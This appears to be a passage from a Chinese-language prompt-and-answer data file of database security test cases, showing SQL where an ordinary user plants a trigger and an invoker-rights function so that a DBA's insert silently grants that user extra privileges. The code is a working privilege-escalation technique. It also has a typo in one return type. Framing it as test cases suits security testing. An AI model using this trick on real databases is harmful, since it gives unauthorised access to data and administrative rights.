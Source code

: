 --user3用户查询结果
SELECT * FROM l3;"
,,
,,
,,
生成一组测试用例，能够反应触发器通过调用函数实现间接提权功能,user1用户是普通用户，创建函数执行授权DBA用户表的插入权限，创建插入前触发器，执行该函数，使用DBA用户插入user1用户的表中，触发触发器调用函数进行授权,"‘--DBA用户
--创建表
CREATE TABLE SYSDBA.TABLE1(ID INT, NAME VARCHAR(20));

--USER1用户
--创建表
CREATE TABLE T1(ID VARCHAR(50));

--创建授权函数
CREATE OR REPLACE FUNCTION CREATE_DBA_TABLE
RETURN A80
AUTHID CURRENT_USER
IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'GRANT INSERT ON SYSDBA.TABLE1 TO USER1';
    COMMIT;
    RETURN 'INSERTED';
END;

--创建触发器，调用函数
CREATE OR REPLACE TRIGGER INSERT_CREATE
BEFORE INSERT ON USER1.T1
FOR EACH ROW
BEGIN
 --调用函数
 CALL CREATE_DBA_TABLE();
END;

--DBA用户
--插入数据，触发触发器进行授权
INSERT INTO USER1.T1 VALUES('SYSDBA');

--USER1用户
--查看权限
SELECT * FROM USER_TAB_PRIVS;"
生成一组测试用例，能够反应触发器通过调用函数实现间接提权功能,user1用户是普通用户，创建函数执行授权任意该用户未有的权限，创建插入后触发器，执行该函数，使用DBA用户插入user1用户的表中，触发触发器调用函数进行授权,"--USER1用户
--创建表
CREATE TABLE T2(ID INT, NAME VARCHAR(20));

--创建授权函数
CREATE OR REPLACE FUNCTION GRANT_PRIVILEGE
RETURN VARCHAR2
AUTHID CURRENT_USER
IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'GRANT CREATE ANY TRIGGER TO USER1';
    COMMIT;
    RETURN 'GRANTED';
END;

